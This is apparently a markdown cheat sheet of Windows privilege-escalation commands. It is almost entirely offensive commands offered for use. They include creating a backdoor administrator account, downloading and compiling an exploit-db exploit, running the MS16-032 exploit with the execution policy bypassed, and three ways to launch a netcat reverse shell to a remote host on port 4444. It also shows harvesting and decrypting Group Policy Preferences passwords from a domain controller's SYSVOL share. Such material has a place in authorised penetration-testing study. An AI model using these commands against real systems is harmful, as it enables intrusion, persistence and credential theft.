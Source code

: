 # Useful Command for Windows Privilage Escalation


Windows Privilege Escalation resource http://www.fuzzysecurity.com/tutorials/16.html

## User Add and Admin Group Add

```
net user hacker hacker /add 
net localgroup administrators IWAM_BOB /add
```

***

* Python Complier exe

```
 pip install pyinstaller
 wget -O exploit.py http://www.exploit-db.com/download/31853  
 python pyinstaller.py --onefile exploit.py
```

* Powershell exploit run in cmd

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"
```

* Windows Run As

1 - Sysinternal psexec

```
C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 
```

2 - runas.exe

```
C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
 Enter the password for Test:
```

3 - Powershell 

```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public
 ```

To start:

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"
```

* Windows Service Configuration Viewver:

```
 scsiaccess.exe  
 NT AUTHORITY\SYSTEM:(I)(F)  
 BUILTIN\Administrators:(I)(F)  
 BUILTIN\Users:(I)(RX)  
 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
 Everyone:(I)(F)
```

* Group Policy Preferences

```
#map the Domain controller SYSVOL share

net use z:\\dc01\SYSVOL

#Find the GPP file: Groups.xml

dir /s Groups.xml

#Review the contents for passwords

type Groups.xml

#Decrypt using GPP Decrypt

gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
```

